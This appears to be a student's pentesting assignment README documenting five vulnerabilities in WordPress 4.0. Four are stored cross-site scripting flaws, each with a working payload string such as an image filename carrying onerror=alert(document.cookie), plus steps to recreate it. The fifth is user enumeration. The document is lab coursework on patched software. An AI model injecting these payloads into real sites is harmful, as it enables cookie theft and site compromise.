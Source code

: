 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID: 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [X] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.0
    - Fixed in version: 4.3
  - [X] GIF Walkthrough:
    - <img src='Clickme.gif' title='Authenticated Shortcode Tags Cross-Site Scripting' width='' alt='' />
  - [X] Steps to recreate: 
    - add a new post
    - insert ```TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>``` on the context
    - publish and view post or click on preview
  - [X] Affected source code:
    - [Link 1](http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/)
    - [Link 2](http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/)
1. (Required) Vulnerability Name or ID: 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [X] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.0
    - Fixed in version:4.2.2 
  - [X] GIF Walkthrough: 
    - <img src='Hello.gif' title='Authenticated Stored Cross-Site Scripting' width='' alt='' />
  - [X] Steps to recreate: 
    - add a new post
    - insert ```<a href="[caption code=">]</a><a title=" onmouseover=alert('XAIO_HE') ">link</a>``` on the context
    - publish and view post or click on preview
  - [X] Affected source code:
    - [Link 1](https://klikki.fi/adv/wordpress3.html)
1. (Required) Vulnerability Name or ID: 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename
  - [X] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.0
    - Fixed in version:4.6 
  - [X] GIF Walkthrough: 
    - <img src='pic.gif' title='Authenticated Stored Cross-Site Scripting via Image Filename' width='' alt='' />
  - [X] Steps to recreate: 
    - add a new post
    - insert ```cengizhansahinsumofpwn<img src=a onerror=alert(document.cookie)>.jpg``` on the context
    - publish and view post or click on preview
  - [X] Affected source code:
    - [Link 1](https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html)
1. (Optional) Vulnerability Name or ID: 4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [X] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.0
    - Fixed in version: 4.7.2
  - [X] GIF Walkthrough: 
    - <img src='youtube.gif' title='Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds' width='' alt='' />
  - [X] Steps to recreate: 
    - add a new post
    - insert ```https://youtube[.]com/watch?v=abc<svg onload=alert(1)>``` on the context
    - publish and view post or click on preview
  - [X] Affected source code:
    - [Link 1](https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html)
1. (Optional) Vulnerability Name or ID
  - [X] Summary: 
    - Vulnerability types:User Enumeration
    - Tested in version:4.0
    - Fixed in version: 
  - [X] GIF Walkthrough: 
    - <img src='user 1.gif' title='USER' width='' alt='' />
  - [X] Steps to recreate: 
    - On the login page, anyone has the ability to find a list of valid user names on a WordPress site
  - [] Affected source code:
## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes



## License

    Copyright [2018] [Jinhui Zhuo]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
